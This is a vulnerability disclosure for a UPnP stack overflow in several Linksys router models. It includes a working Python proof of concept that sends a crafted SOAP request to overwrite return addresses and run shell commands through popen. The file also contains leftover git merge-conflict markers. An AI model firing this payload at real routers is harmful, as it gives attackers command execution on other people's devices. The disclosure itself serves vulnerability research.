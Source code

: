 #Linksys Vulnerability

Vendor:Linksys

Product:WRT1900ACS,EA7200,EA7450 ,EA7500



Version:

WRT1900ACS(Ver. 2.0.3.201002)

EA7200(Ver. 1.0.3.20817933.9)

EA7450(Ver. 1.0.4.208179)

EA7500(Ver. 3.0.1.207964)



Type:

Stack-based Buffer Overflow



##Vulnerability description

I found a stack overflow vulnerability in Linksys routers. This vulnerability can be used with the popen function to execute arbitrary commands.

In `IGD` binary:

In `SetDefaultConnectionService` function, `NewDefaultConnectionService` is directly passed by the attacker,When using this parameter, strncpy is used directly for copying, causing a stack overflow.

<<<<<<< Updated upstream:1.md
![](https://github.com/feiwuxingxie/cve/blob/main/1.2.png)
=======
![image](https://github.com/feiwuxingxie/cve/blob/main/1.2.png)
>>>>>>> Stashed changes:linksys/vul01/1.md

![](https://github.com/feiwuxingxie/cve/blob/main/1.1.png)

Function sub_189BC return with `POP {R4-R8,LR}`.And this binary file contains the popen function, and the parameters are controllable,  we can  execute any command.

![](https://github.com/feiwuxingxie/cve/blob/main/1.3.png)



## Poc

```python
import socket

ip="192.168.17.132"
port="49152"

payload='touch /tmp/flag;touch /tmp/flag;sleep 50#'
payload=payload.rjust(0x12c,' ')+'\xd0\x29\x90\xb1'*5+'\x78\x70'

junk='b'*0x1000

file_content='''
<s:Envelope s:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/" xmlns:s="http://schemas.xmlsoap.org/soap/envelope/"> <s:Body> <u:SetDefaultConnectionService xmlns:u="urn:schemas-upnp-org:service:Layer3Forwarding:1#SetDefaultConnectionService"><NewDefaultConnectionService>{}</NewDefaultConnectionService><NewConnectionService>{}</NewConnectionService></u:SetDefaultConnectionService></s:Body></s:Envelope>
'''.format(payload,junk)

content_len=len(file_content)


template = f'''POST /upnp/control/Layer3Forwarding HTTP/1.1
Host: {ip}:{port}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:139.0) Gecko/20100101 Firefox/139.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: _ga=GA1.4.1688139926.1746780008; _ga_BDYNZJT6JR=GS2.4.s1748393176$o15$g0$t1748393176$j60$l0$h0
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Type: text/xml;
SOAPACTION: "urn:schemas-upnp-org:service:Layer3Forwarding:1#SetDefaultConnectionService"
Content-Length: {content_len}

{file_content}
'''.replace('\n', '\r\n')
#print(template)

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect((ip, int(port)))
sock.sendall(template.encode('latin-1'))

data=sock.recv(4096)
print(data)

```


